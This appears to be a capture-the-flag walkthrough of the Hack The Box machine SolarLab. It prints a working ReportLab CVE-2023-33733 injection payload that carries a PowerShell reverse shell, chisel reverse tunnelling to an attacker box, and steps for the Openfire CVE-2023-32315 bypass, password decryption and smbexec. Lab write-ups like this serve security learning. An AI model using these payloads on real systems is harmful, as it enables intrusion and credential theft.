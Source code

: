  HTB: SolarLab — Full Walkthrough (Hard)

Author: @tahahfatima | Difficulty: Hard
Category: Real-world | CVE chaining | RCE | PrivEsc
Status: ✅ Rooted
🧠 Summary

The SolarLab box demonstrates a multi-stage compromise using a blend of misconfigurations and publicly known CVEs. The core attack involved:

    Leaking credentials from SMB .xlsx files

    Exploiting a web app (port 6791) using CVE-2023-33733 (ReportLab RCE)

    Gaining secondary access to Openfire on port 9090 using CVE-2023-32315

    Decrypting the admin password from Openfire's embedded DB

    Root shell via classic SMBExec + reverse shell reuse

🔍 Recon

nmap -sC -sV -Pn <target-ip>

Open Ports:

    80 (HTTP)

    445 (SMB)

Navigating to http://<ip> showed a static web page with nothing actionable.

So I pivoted to SMB enumeration using:

smbclient -L //<target-ip> --no-pass

Found a share: Documents. Accessed it anonymously and pulled all files.
📂 Credential Leak via SMB

Inside details-file.xlsx, I found juicy intel:

    Several usernames

    Emails

    Cleartext passwords

Example format:

AlexanderA : <password>
ClaudiaC : <password>
Blake.Byte : <password>

The format firstname.surname stood out for Blake, unlike the others. I suspected his real login might be BlakeB.
🔐 Web App Login (Port 6791)

Next, I scanned all ports:

nmap -p- <target-ip>

Discovered 6791 — a custom web login portal.

Started brute-forcing logins using Burp Suite ClusterBomb with usernames and passwords from the .xlsx file.

Only BlakeB with one of the listed passwords worked — granting access to a form-based app that could generate downloadable PDFs.
⚔️ CVE-2023-33733: ReportLab PDF Generator RCE

Used exiftool on a downloaded PDF — saw the ReportLab PDF Library in the metadata.

🔍 Found this:

    CVE-2023-33733 — RCE in ReportLab’s PDF generation via template injection.

Crafted an exploit by modifying the travel_request field in the “Travel Approval” form.
Payload:

Used a base64-encoded PowerShell reverse shell (from revshells.com) in the payload.

Injected the following snippet (PoC from GitHub):

<para>
<font color="[ [ getattr(pow,Word('__globals__'))['os'].system('PAYLOAD') for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))] ] and 'red'">
exploit
</font>
</para>

Replaced PAYLOAD with the revshell.

📡 Started a listener and submitted the form → Got reverse shell as blake.

Grabbed user.txt.
🛰️ Port Forwarding to Openfire (Port 9090)

From blake's shell, checked listening ports:

netstat -tulnp

Both 9090 and 9091 were active (Openfire admin console). Used chisel for port forwarding:

# Kali box:
chisel server -p 8000 --reverse

# On victim (Windows):
chisel client <kali-ip>:8000 R:9090:127.0.0.1:9090

Now accessible via http://localhost:9090.
💥 CVE-2023-32315: Openfire Auth Bypass to RCE

Openfire version 4.7.4 → Vulnerable to CVE-2023-32315.

GitHub PoC:
https://github.com/miko550/CVE-2023-32315

This allowed dumping Openfire users and logging into the admin panel.
⚙️ Openfire Plugin RCE → openfire Shell

Steps:

    Uploaded ManagementTool.jar (from CVE PoC repo) via Openfire admin.

    Plugin revealed the password in the description: 123

    Accessed system command prompt

    Executed the same PowerShell revshell → shell as user openfire

🔓 Privilege Escalation via Encrypted Password Leak

Found this path:

/opt/openfire/embedded-db/openfire.script

It contained:

    Encrypted admin password hash

    Associated key

🔑 Decrypted using this tool:

    https://github.com/c0rdis/openfire_decrypt

java -jar openfire_decrypt.jar <hash> <key>

Got cleartext Administrator credentials.
🧨 Root via SMBExec + Revshell

Used:

smbexec.py administrator@<target-ip>

Due to restricted shell, reused revshell again (PowerShell base64 from revshells.com).

✅ Got a root shell. Grabbed root.txt.
✅ Flags

    user.txt: ✔️ (blake)

    root.txt: ✔️ (administrator)

🧠 Key Takeaways

    SMB often leaks internal docs → check .xlsx, .docx, .pdf for credentials.

    ReportLab + PDF gen → template injection + RCE.

    Openfire is frequently misconfigured + vulnerable (CVE-2023-32315).

    Embedded DBs = gold mines → decrypt if you find hashes + keys.

    Reusing stable payloads = less room for error.

